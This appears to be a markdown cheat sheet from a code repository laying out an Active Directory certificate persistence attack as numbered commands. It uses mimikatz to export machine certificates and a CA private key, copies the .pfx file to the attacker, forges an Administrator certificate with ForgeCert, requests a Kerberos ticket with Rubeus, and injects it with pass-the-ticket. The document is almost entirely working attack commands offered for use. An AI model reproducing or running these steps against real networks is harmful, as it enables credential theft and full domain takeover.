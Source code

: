 # AD CERTIFICATES PERSISTENCE

### Tools: mimikatz, SharpDPAPI

## Extract Private Key

#### 1) mimikatz

#### 2) crypto::certificates /systemstore:LOCAL_MACHINE

#### 3) privilege::debug

#### 4) crypto::capi 

#### 5) crypto::cng

#### 6) crypto::certificates /systemstore:LOCAL_MACHINE /export

## Exported Certificates format: PFX and DER

#### 7) Download/copy .pfx file to attacker, then SCP to low-privileged user's home directory (Default key pass: mimikatz)

## Generate our own certificate

### Tools: Forgecert, Rubeus, Mimikatz

#### 8) Forgecert.exe --CaCertPath /path/to/.pfx --CaCertPassword mimikatz --Subject CN=(WHATEVER) --SubjectAltName Administrator@DOMAIN --NewCertPath /path/to/forged.pfx --NewCertPassword PASSWORD

#### 9) Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:/path/to/forged.pfx /password:CERT_PASS /outfile:TICKET.KIRBI /domain:DOMAIN /dc:DC_IP

#### 10) mimikatz

#### 11) kerberos::ptt TICKET.KIRBI

#### 12) exit
